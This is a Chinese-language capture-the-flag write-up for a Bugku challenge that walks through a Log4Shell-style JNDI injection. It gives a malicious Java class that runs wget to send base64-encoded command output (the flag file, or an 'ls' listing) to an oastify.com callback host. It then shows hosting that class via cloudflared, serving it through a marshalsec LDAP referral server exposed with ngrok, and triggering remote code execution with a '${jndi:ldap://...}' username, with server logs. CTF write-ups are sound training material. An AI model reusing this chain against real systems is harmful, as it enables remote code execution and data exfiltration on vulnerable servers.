

题目连接：[https://ctf.bugku.com/challenges/detail/id/340.html](https://ctf.bugku.com/challenges/detail/id/340.html)

## Step 1

构建恶意类`Exploit.java`：

```java
public class Exploit {
    public Exploit() {
    }

    static {
        try {
        //  String[] cmds = {"/bin/sh", "-c", "wget -qO- http://vjigzgm3930ko9hia69i0q21us0joec3.oastify.com/?result=$(ls | base64)"};
            String[] cmds = {"/bin/sh", "-c", "wget -qO- http://vjigzgm3930ko9hia69i0q21us0joec3.oastify.com/?result=$(cat flag | base64)"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        Exploit e = new Exploit();
    }
}
```

```bash
javac Exploit.java
```

会生成`Exploit.class`。

> 需要jdk8编译否则服务端可能无法加载。我的电脑上有多个Java版本，因此使用：
>
> ```bash
> /usr/libexec/java_home -v 1.8 --exec javac Exploit.java
> ```

## Step 2

当前目录下执行：

```bash
python -m http.server 8888
```

内网穿透：

```bash
cloudflared tunnel --url http://localhost:8888
```

```text
+--------------------------------------------------------------------------------------------+
|  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
|  https://pope-supplemental-notices-greetings.trycloudflare.com                             |
+--------------------------------------------------------------------------------------------+
```

这一步是为了把`Exploit.class`托管出去，LDAP服务器会引用这个URL来加载恶意类。

## Step 3

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://pope-supplemental-notices-greetings.trycloudflare.com/#Exploit"
```

```text
Listening on 0.0.0.0:1389
```

内网穿透：

```bash
ngrok tcp 1389
```

```text
Forwarding  tcp://0.tcp.ap.ngrok.io:10489 -> localhost:1389
```

## Step 4

以用户名`${jndi:ldap://0.tcp.ap.ngrok.io:10489/Exploit}`登录触发RCE。

```text
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://pope-supplemental-notices-greetings.trycloudflare.com/#Exploit"
Listening on 0.0.0.0:1389
Send LDAP reference result for Exploit redirecting to https://pope-supplemental-notices-greetings.trycloudflare.com/Exploit.class
```

```text
$ python -m http.server 8888
Serving HTTP on :: port 8888 (http://[::]:8888/) ...
::1 - - [22/Nov/2025 22:57:23] "GET /Exploit.class HTTP/1.1" 200 -
```

<!-- @xprops width="100%" themeAdaptive -->


